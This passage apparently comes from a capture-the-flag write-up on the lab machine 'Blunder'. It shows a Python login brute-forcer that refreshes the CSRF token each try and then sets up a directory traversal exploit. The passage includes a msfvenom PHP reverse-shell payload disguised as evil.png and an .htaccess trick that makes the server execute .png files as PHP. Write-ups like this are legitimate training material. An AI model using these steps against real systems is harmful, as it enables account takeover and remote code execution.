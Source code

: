 ```

	login_return = session.post(url+path, data = data, allow_redirects = False)

	print (login_return)
	if ('incorrect' not in login_return.text):
		# print (login_return.text)
		print ("Success!")
		print ('Use username: fergus and password: ', password)
		break
```

The script is working as:

1. Open the wordlist named `words` and read it's content.
2. Run a loop for all the words in the wordlist.
3. In the loop, we are doing the following:
   * Request the login page to obtain the new CSRF token.
   * Create a custom list of value in variable `data` that are to be sent to the login page.
   * Send the `data` to the login page through a `POST` request and disable redirects.
   * Check the response of `POST` request for the keyword 'incorrect'. This will help us to stop the loop when correct credentials are found because when we would have logged in there won't be the string 'username or password incorrect' present in the response.

P.S. I used burpsuite to check all the parameters that were being sent to the login page with every request and on the basis of that created the values in `data`. 

With this, we get the correct password as well which we can try by logging in.

![dashboard](./.images/dashboard.png)

Now that we have the correct username and password, we can use the directory traversal exploit that we had downloaded earlier by making the correct changes to it.

![exploit_changes](./.images/exploit_changes.png)

On reading the script further, we can see that we need to create two more files which are `evil.png` and `.htaccess`. Lucking the commands to create those files are also given, so we can use those commands to create the required payloads.

```
┌─[✗]─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $msfvenom -p php/reverse_php LHOST=<your_ip> LPORT=4242 -f raw -b '"' > evil.png
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 2 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 4098 (iteration=0)
php/base64 chosen with final size 4098
Payload size: 4098 bytes
┌─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $echo -e "<?php $(cat evil.png)" > evil.png 
┌─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $echo "RewriteEngine off" > .htaccess
┌─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $echo "AddType application/x-httpd-php .png" >> .htaccess
```
